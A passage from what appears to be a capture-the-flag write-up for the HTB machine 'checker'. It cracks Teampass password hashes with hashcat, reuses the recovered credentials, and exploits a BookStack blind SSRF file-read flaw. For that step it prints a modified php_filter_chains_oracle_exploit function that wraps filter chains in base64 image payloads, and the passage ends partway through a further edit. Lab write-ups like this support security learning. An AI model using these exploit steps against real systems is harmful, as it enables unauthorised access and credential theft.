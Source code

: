 You can crack it using `hashcat`.

```bash
hashcat -m 3200 teampass_hashes.txt <rockyou> --username
```

You can only crack `bob` hash, but it is enough to log in to the Teampass.

## Web as bob

Inside the Teampass, you can find `bob-access` folder that contains `bookstack login` and `ssh access`.
If you try the `ssh access` credential, you will be asked for a verification code after entering the password.

```bash
$ ssh reader@checker.htb
(reader@checker.htb) Password:
(reader@checker.htb) Verification code:
```

Okay, let's focus on the BookStack because we don't have any knowledge about the verifcation code yet.

## 8080 - TCP again

Back at the BookStack website. Because we have a valid credential, we can follow the [PoC](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/) to exploit it. The PoC use modified version of [php_filter_chains_oracle_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit) so that it could send the appropriate payload.
We could get the payload format from the same author of the PoC on this [Link](https://fluidattacks.com/advisories/imagination/).

The format is `<img src='data:image/png;base64,[BASE64 HERE]'/>` and the parameter name should be `html`, so we need to modify the script to accomodate it.
You need to the the `requestor.py` inside the `req_with_response` function before the try except block.

```py
...
def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        filter_chain = f"php://filter/{s}{self.in_chain}/resource={self.file_to_leak}"
        # DEBUG print(filter_chain)
        merged_data = self.parse_parameter(filter_chain)
        phpfilter = merged_data["html"]
        phpfilter_b64 = base64.b64encode(phpfilter.encode()).decode()
        img = f"<img src='data:image/png;base64,{phpfilter_b64}'/>"
        merged_data["html"] = img
...
```

That should be enough but I don't know what's wrong with my machine that the if else branch inside the try except block wasn't working as intended. I have to modify the condition for `Verb.PUT` to the following to make it work.
